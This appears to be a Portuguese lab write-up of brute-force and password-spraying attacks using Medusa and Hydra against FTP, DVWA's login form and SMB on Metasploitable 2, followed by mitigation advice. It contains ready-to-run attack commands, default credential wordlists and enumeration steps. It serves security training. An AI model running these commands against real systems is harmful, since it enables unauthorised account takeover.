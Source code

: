 # Simulação de Ataques de Força Bruta (Medusa)

## Objetivo Geral

Este documento detalha a metodologia e os resultados da simulação de ataques de força bruta contra serviços vulneráveis (FTP, HTTP/Form e SMB) em ambientes controlados (Metasploitable 2 e DVWA). O objetivo principal é demonstrar o uso da ferramenta Medusa (Kali Linux) para auditoria de senhas fracas e propor contramedidas de segurança eficazes.

## Ambiente e Metodologia

A simulação será conduzida em um ambiente de laboratório isolado para garantir que não haja impacto em redes de produção.

### Configuração do Ambiente Virtual (VirtualBox)

  * **Rede:** Rede Interna (Host-Only) – `vboxnet0` (Ex: Sub-rede `192.168.56.0/24`).
  * **VM Atacante:** Kali Linux
      * **IP:** `192.168.56.101` (Definido estaticamente).
      * **Ferramentas:** Medusa, Nmap, Hydra, Wordlists (`rockyou.txt`, etc.).
  * **VM Alvo:** Metasploitable 2 (Contém serviços FTP, SMB e DVWA).
      * **IP:** `192.168.56.102` (Obtido via `ifconfig`).

### Wordlists (Listas de Palavras)

Para os testes, serão utilizadas listas de palavras simplificadas para agilizar a prova de conceito (PoC).

  * `usuarios.txt`:
    ```
    root
    admin
    msfadmin
    user
    ```
  * `senhas.txt`:
    ```
    admin
    password
    123456
    msfadmin
    toor
    ```

## Execução dos Cenários de Teste

### Cenário 1: Ataque de Força Bruta ao Serviço FTP (Metasploitable 2)

  * **Identificação:** O serviço FTP (vsftpd 2.3.4) está em execução na porta 21 do alvo.

  * **Objetivo:** Obter acesso via força bruta, testando múltiplas combinações de usuário e senha.

  * **Comando (Medusa):**

    ```bash
    medusa -h 192.168.56.102 -U usuarios.txt -P senhas.txt -M ftp -t 4
    ```

      * `-h`: Host (alvo).
      * `-U`: Arquivo de lista de usuários.
      * `-P`: Arquivo de lista de senhas.
      * `-M`: Módulo do serviço (ftp).
      * `-t`: Número de threads (paralelismo).

  * **Validação de Acesso (Resultado Esperado):**

    ```
    ACCOUNT: msfadmin
    PASSWORD: msfadmin
    [SUCCESS]
    ```

### Cenário 2: Automação de Ataque em Formulário Web (DVWA)

  * **Identificação:** O DVWA está hospedado no Metasploitable 2 ([http://192.168.56.102/dvwa/](https://www.google.com/search?q=http://192.168.56.102/dvwa/)). O formulário de "Brute Force" (Low security) envia um POST com os parâmetros `username` e `password`.

  * **Nota Técnica:** Embora o Medusa possua módulos HTTP, a ferramenta `Hydra` é frequentemente mais flexível para formulários web customizados. Conforme a flexibilidade do desafio, opta-se pelo Hydra para este cenário específico, por sua sintaxe mais direta para `http-post-form`.

  * **Comando (Hydra):**

    ```bash
    hydra -L usuarios.txt -P senhas.txt 192.168.56.102 http-post-form \
    "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Login failed" \
    -V -f -C /path/to/cookies.txt
    ```

      * `-L / -P`: Listas de usuários e senhas.
      * `http-post-form`: Módulo do Hydra.
      * `"[URI]:[Parâmetros POST]:[Mensagem de Falha]"`: A sintaxe chave.
      * `-C`: Necessário para manter a sessão do DVWA (o cookie `PHPSESSID` deve ser capturado previamente).

  * **Validação de Acesso (Resultado Esperado):**

    ```
    [SUCCESS] Host: 192.168.56.102 Login: admin Password: password
    ```

### Cenário 3: Password Spraying em SMB (Metasploitable 2)

  * **Identificação:** O serviço SMB (Samba) está ativo (portas 139/445).

  * **Objetivo:** Simular um ataque de *password spraying*, onde se utiliza uma única senha (comum, ex: `Verao@2025`) contra uma lista extensa de usuários.

  * **Enumeração de Usuários (Pré-requisito):**

    ```bash
    enum4linux 192.168.56.102 > usuarios_smb.txt
    ```

    (Extrair a lista de usuários do output para um novo arquivo `lista_smb_users.txt`).

  * **Comando (Medusa):**

    ```bash
    medusa -h 192.168.56.102 -U lista_smb_users.txt -p 'msfadmin' -M smbnt
    ```

      * `-U`: Lista de usuários enumerados.
      * `-p`: Senha única (minúscula) para o *spraying*.
      * `-M smbnt`: Módulo para SMB (autenticação NTLM).

  * **Validação de Acesso (Resultado Esperado):**

    ```
    ACCOUNT: msfadmin
    PASSWORD: msfadmin
    [SUCCESS]
    ```

## Recomendações de Mitigação (Contramedidas)

A documentação dos resultados deve ser acompanhada por recomendações de *hardening* acionáveis:

  * **Mitigação (Geral):**

      * Implementar **Políticas de Senha Forte** (complexidade, comprimento, rotação).
      * Implementar **Políticas de Bloqueio de Conta** (ex: bloquear após 5 tentativas falhas por 15 minutos).

  * **Mitigação (FTP):**

      * Priorizar o uso de protocolos seguros (ex: **SFTP** ou **FTPS**).
      * Desabilitar contas de usuário genéricas ou padrão.

  * **Mitigação (Web/DVWA):**

      * Implementação de **CAPTCHA** ou reCAPTCHA em formulários de login.
      * Implementação de **Rate Limiting** no lado do servidor ou via WAF (Web Application Firewall).

  * **Mitigação (SMB):**

      * Desabilitar versões obsoletas (SMBv1).
      * Restringir o acesso SMB a hosts autorizados (segmentação de rede).
      * Implementar monitoramento centralizado de logs (SIEM) para detectar falhas de login em massa.

## Considerações

A ferramenta Medusa demonstrou ser eficaz e de rápida execução para serviços de autenticação direta (FTP, SMB). A complexidade aumenta em protocolos aplicacionais (HTTP), onde ferramentas alternativas como Hydra podem oferecer maior granularidade. O desafio reforça que a defesa em profundidade – combinando políticas de senha, bloqueio de contas e monitoramento – é essencial para mitigar ataques de força bruta.
